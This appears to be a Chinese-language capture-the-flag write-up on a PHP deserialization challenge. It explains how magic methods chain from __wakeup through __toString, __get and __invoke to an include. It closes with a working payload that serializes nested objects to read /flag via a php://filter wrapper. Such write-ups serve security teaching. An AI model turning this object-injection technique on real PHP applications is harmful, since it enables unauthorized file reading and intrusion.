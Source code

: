 构造pop链，可以看到**Try_Work_Hard**类的**append()**方法中有个**include**，所以我们可以尝试php伪协议，

在**__invoke()**中有**appen()**方法，***__invoke()  当尝试将对象调用为函数时触发***，

也就是说要让Try_Work_Hard类的对象被当做函数调用以触发**__invoke()**

Make_a_Change类中，**__get()**方法内返回$function()。因此我们可以令$function等于一个Try_Work_Hard类的对象，这样当**__get()**方法内返回$function()时就可以触发**invoke()。**

`__get()`方法在访问私有或不存在的成员属性的时候自动触发，我们看到在`Road_is_Long`类的`__toString()`方法中，若我们令`$this->string = new Make_a_Change()`，那么`$this->string->page`就会触发`__get()`方法，因为`Make_a_Change`类中没有`$page`

`__toString()`方法，它需要把类当作字符串使用时触发。而在其本身有个`__wakeup()`方法，里面存在正则匹配，因此我们只需要令`page`成为一个`Try_Work_Hard`类即可。`__wakeup()`方法会在进行反序列化的时候自动触发，我们不用管



*需要两个*`Road_is_Long`*类的对象，我们对其命名为a和b，a在外层触发*`__wakeup()`*，b作为a的*`page`*，在a中被作为字符使用，从而触发b自身的*`__toString()`

**关键点**：`preg_match($pattern, $subject)` 会把 **`$subject` 转成字符串**。

 如果 `$subject` 是**对象**，PHP 会尝试调用它的 **`__toString()`**。

因此我们让**外层 A** 的 `page` 变成**对象 B**；当 **A 的 `__wakeup()`** 执行到
 `preg_match("/.../", $this->page)` 时，会**强制把 B 当成字符串**，从而**自动触发 `B->__toString()`**。



**最后的pop链**

```
Road_is_Long::__wakeup() -> Road_is_Long::__toString() -> Make_a_Change::__get() -> Try_Work_Hard::__invoke() -> Try_Work_Hard::append()
```

**payload**

```
<?php
class Road_is_Long{
    public $page;
    public $string;
}

class Try_Work_Hard{
    protected  $var="php://filter/convert.base64-encode/resource=/flag";
}

class Make_a_Change{
    public $effort;
}

$f = new Try_Work_Hard();
$m = new Make_a_Change();
$m->effort = $f;
$b = new Road_is_Long();
$b->string = $m;
$a = new Road_is_Long();
$a->page = $b;

echo urlencode(serialize($a));
?>
```
